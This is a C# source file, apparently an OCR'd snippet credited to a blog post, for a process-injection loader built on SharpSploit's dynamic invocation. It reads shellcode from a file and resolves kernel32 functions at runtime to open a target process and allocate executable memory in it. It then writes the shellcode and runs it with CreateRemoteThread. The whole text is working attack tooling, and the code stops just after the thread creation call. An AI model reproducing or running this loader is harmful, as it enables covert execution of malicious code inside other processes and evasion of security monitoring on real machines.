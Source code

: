 ```cs
// stolen from https://rastamouse.me/blog/process-injection-dinvoke/
using System;
using System.IO;
using System.Runtime.InteropServices;
using SharpSploit.Execution.DynamicInvoke;
namespace InjectionTest
{class Program

  {
    [UnmanagedFunctionPointer(CallingConvention.StdCall)]

    delegate IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);

    [UnmanagedFunctionPointer(CallingConvention.StdCall)]

    public delegate IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [UnmanagedFunctionPointer(CallingConvention.StdCall)]

    public delegate bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out UIntPtr lpNumberOfBytesWritten);

    [UnmanagedFunctionPointer(CallingConvention.StdCall)]

    public delegate IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    
    static void Main(string[] args)

    {

      var shellcode = File.ReadAllBytes(args[0]);

      var pointer = Generic.GetLibraryAddress(“kernel32.dll”, “OpenProcess”);

      var openProcess = Marshal.GetDelegateForFunctionPointer(pointer, typeof (OpenProcess)) as OpenProcess;

      var hProcess = openProcess(0x001F0FFF, false, int.Parse(args[1]));

      pointer = Generic.GetLibraryAddress(“kernel32.dll”, “VirtualAllocEx”);

      var virtualAllocEx = Marshal.GetDelegateForFunctionPointer(pointer, typeof (VirtualAllocEx)) as VirtualAllocEx;

      var alloc = virtualAllocEx(hProcess, IntPtr.Zero, (uint) shellcode.Length, 0x1000 | 0x2000, 0x40);

      pointer = Generic.GetLibraryAddress(“kernel32.dll”, “WriteProcessMemory”);

      var writeProcessMemory = Marshal.GetDelegateForFunctionPointer(pointer, typeof (WriteProcessMemory)) as WriteProcessMemory;

      writeProcessMemory(hProcess, alloc, shellcode, (uint) shellcode.Length, out UIntPtr bytesWritten);

      pointer = Generic.GetLibraryAddress(“kernel32.dll”, “CreateRemoteThread”);

      var createRemoteThread = Marshal.GetDelegateForFunctionPointer(pointer, typeof (CreateRemoteThread)) as CreateRemoteThread;

      createRemoteThread(hProcess, IntPtr.Zero, 0, alloc, IntPtr.Zero, 0, IntPtr.Zero);
```